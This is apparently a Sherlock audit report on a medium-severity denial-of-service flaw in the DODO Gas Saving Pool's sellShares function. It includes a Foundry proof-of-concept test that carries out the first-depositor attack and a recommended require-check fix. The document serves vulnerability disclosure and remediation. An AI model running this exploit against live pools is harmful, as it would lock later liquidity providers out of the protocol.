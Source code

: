 Real Honeysuckle Bobcat

medium

# First LP can DOS future LP stakers by withdrawing assets back to GSP contract

## Summary

The sellShares() function allows an LP to set the `to` address to GSP's own contract. This can cause accounting issues with the GSP contract leading to DOS.

## Vulnerability Detail

The vulnerability is caused by several reasons:

- LP can set the `to` param to the GSP contract
- LP can burn all but 1 LP shares.
- The _mint() function requires at least 1000 shares to be minted.

With this combo, the first LP of a pool can burn all but 1 share and then have the balance sent back to the GSP contract. This leads to a scenario where the LP owns 1 share. Any future LP tokens will have to mint at least 1,000 times the amount of assets stored in the pool. Otherwise, the mint operation will revert.

The forge test below will revert because the OTHER LP has not provided enough funds (they need to exceed at least 1,000+ times the original deposit amount set by the first LP in order to successfully mint:

```solidity
// forge test -vvv --fork-url FORGE_URL_HERE --match-test test_sellSharesReserveBurnAllExceptOneShareExploit
function test_sellSharesReserveBurnAllExceptOneShareExploit() public {
    console.log("GSP stats before attack:");
    console.log("--------------------------");
    console.log("BASE RESERVE: ", uint(gsp._BASE_RESERVE_()));
    console.log("QUOTE RESERVE: ", uint(gsp._QUOTE_RESERVE_()));
    console.log("TOTAL SUPPLY: ", uint(gsp.totalSupply()));

    // USER buys shares
    vm.startPrank(USER);
    dai.transfer(address(gsp), BASE_RESERVE);
    usdc.transfer(address(gsp), QUOTE_RESERVE);
    gsp.buyShares(USER);

    console.log("");
    console.log("");
    console.log("GSP stats after USER buys shares:");
    console.log("--------------------------");
    console.log("BASE RESERVE: ", uint(gsp._BASE_RESERVE_()));
    console.log("QUOTE RESERVE: ", uint(gsp._QUOTE_RESERVE_()));
    console.log("BASE GSP TOKEN BALANCE: ", uint(dai.balanceOf(address(gsp))));
    console.log("QUOTE GSP TOKEN BALANCE: ", uint(usdc.balanceOf(address(gsp))));
    console.log("TOTAL SUPPLY: ", uint(gsp.totalSupply()));


    // USER sells shares
    uint256 shares = gsp.balanceOf(USER);
    gsp.sellShares(shares - 1, address(gsp), 0, 0, "", block.timestamp);

    console.log("");
    console.log("");
    console.log("GSP stats after USER sells shares:");
    console.log("--------------------------");
    console.log("BASE RESERVE: ", uint(gsp._BASE_RESERVE_()));
    console.log("QUOTE RESERVE: ", uint(gsp._QUOTE_RESERVE_()));
    console.log("BASE GSP TOKEN BALANCE: ", uint(dai.balanceOf(address(gsp))));
    console.log("QUOTE GSP TOKEN BALANCE: ", uint(usdc.balanceOf(address(gsp))));
    console.log("TOTAL SUPPLY: ", uint(gsp.totalSupply()));


    // transfer some tokens to OTHER
    vm.startPrank(DAI_WHALE);
    dai.transfer(OTHER, BASE_RESERVE * 10_000);
    vm.stopPrank();
    vm.startPrank(USDC_WHALE);
    usdc.transfer(OTHER, QUOTE_RESERVE * 10_000);
    vm.stopPrank();

    // OTHER buys shares
    vm.startPrank(OTHER);
    dai.transfer(address(gsp), BASE_RESERVE * 1_000);
    usdc.transfer(address(gsp), QUOTE_RESERVE * 1_000);
    gsp.buyShares(OTHER);

    console.log("");
    console.log("");
    console.log("GSP stats after OTHER buys shares:");
    console.log("--------------------------");
    console.log("other owns ", gsp.balanceOf(OTHER), " total amount of shares");
    console.log("BASE RESERVE: ", uint(gsp._BASE_RESERVE_()));
    console.log("QUOTE RESERVE: ", uint(gsp._QUOTE_RESERVE_()));
    console.log("BASE GSP TOKEN BALANCE: ", uint(dai.balanceOf(address(gsp))));
    console.log("QUOTE GSP TOKEN BALANCE: ", uint(usdc.balanceOf(address(gsp))));
    console.log("TOTAL SUPPLY: ", uint(gsp.totalSupply()));
}
```

## Impact

LP minters will not be able to interact with the protocol unless a large whale deposits tokens into the pool.

## Code Snippet

https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/main/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol?plain=1#L92-L146

 
https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/main/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPVault.sol?plain=1#L294-L300


## Tool used

Manual Review
 

## Recommendation

Do not allow the `to` argument in the sellShares function to be set to the GSP contract. This will ensure that a LP can't nerf the contract.

```solidity
function sellShares(
    uint256 shareAmount,
    address to,
    uint256 baseMinAmount,
    uint256 quoteMinAmount,
    bytes calldata data,
    uint256 deadline
) external nonReentrant returns (uint256 baseAmount, uint256 quoteAmount) {
  require(to != address(this), "Sending tokens to this GSP contract is not allowed");
```

